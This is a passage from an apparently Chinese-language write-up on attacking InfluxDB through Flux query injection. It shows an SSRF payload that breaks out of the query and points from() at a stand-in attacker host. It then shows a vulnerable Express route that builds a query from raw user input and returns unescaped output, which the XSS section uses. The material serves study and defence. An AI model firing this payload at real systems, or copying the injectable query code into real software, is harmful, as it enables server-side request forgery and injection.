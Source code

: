 可以看见这里的值为1337

## 3.6 SSRF利用

在官方文档中，可以看见influxdb在from函数之中是可以接受host参数的

![](assets/1706959875-66896e3a2b881b63456a3ae80c1ca965.png)

所以可以构造playload：

```js
") |> yield(name: "1337")
 from(bucket: "1337", host:"https://ATTACKER-SERVER") |> range(start:0)
 //
```

## 3.7 XSS利用

看见上面构建的程序

```js
app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});
```
